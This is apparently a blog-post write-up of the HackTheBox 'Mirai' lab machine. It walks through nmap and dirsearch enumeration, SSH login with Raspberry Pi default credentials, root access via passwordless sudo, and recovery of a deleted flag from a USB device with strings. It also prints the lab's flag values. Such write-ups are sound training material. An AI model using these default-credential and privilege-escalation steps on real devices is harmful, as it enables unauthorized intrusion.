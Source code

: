 ```yaml
---
layout: post
title: HackTheBox Mirai
date: 2017-09-01
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors. ([Source](https://www.hackthebox.com/machines/mirai))

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.48
Nmap scan report for 10.10.10.48
Host is up (0.0038s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/18%OT=22%CT=1%CU=40024%PV=Y%DS=2%DC=T%G=Y%TM=620F90A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=FE%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=
OS:M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=7120%W2=71
OS:20%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW6
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   3.57 ms 10.10.14.1
2   3.83 ms 10.10.10.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.86 seconds
```

Trying to view the webpage leads us to a web page error.

![website_error](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Mirai/website_error.png?raw=true)

Let’s add the hostname `mirai.htb` to the `/etc/hosts` file. 

Accessing the webpage now shows that it is blocked.

![website_blocked](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Mirai/website_blocked.png?raw=true)

Used `dirsearch` to check if there is any hidden directories.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# dirsearch -u http://mirai.htb -w /usr/share/dirb/wordlists/common.txt
...
[21:05:29] 301 -    0B  - /admin  ->  http://mirai.htb/admin/
...
```

Navigating to `/admin` shows the following webpage.

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Mirai/website.png?raw=true)

The website seems like a dashboard to a Raspberry Pi. Trying to login with the default password `raspberry` didn’t work. However, SSH using the default credentials `pi:raspberyy` worked.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# ssh pi@10.10.10.48               
pi@10.10.10.48's password: 
pi@raspberrypi:~ $ 
```

# Exploitation

```bash
pi@raspberrypi:~ $ ls
background.jpg  Documents  Music         Pictures  python_games  Videos
Desktop         Downloads  oldconffiles  Public    Templates
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ sudo bash
root@raspberrypi:/home/pi# ls
background.jpg	Documents  Music	 Pictures  python_games  Videos
Desktop		Downloads  oldconffiles  Public    Templates
root@raspberrypi:/home/pi# cd Desktop/
root@raspberrypi:/home/pi/Desktop# ls
Plex  user.txt
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff837707441b257a20e32199d7c8838d
root@raspberrypi:/home/pi/Desktop# find ~/ -name root.txt
/root/root.txt
root@raspberrypi:/home/pi/Desktop# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

It seems like the root flag is not there but there is a hint that it’s in a USB file system. We can use `df` to view the summary of file systems.

```bash
root@raspberrypi:~# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2839864   5543708  34% /
tmpfs             102396    4892     97504   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2839864   5543708  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```

There is a filesystem mounted on `/media/usbstick`.

```bash
root@raspberrypi:/# cd media/usbstick
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Now it seems like the flag is deleted from the filesystem. Turns out we can find the root flag using `strings`.

```bash
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
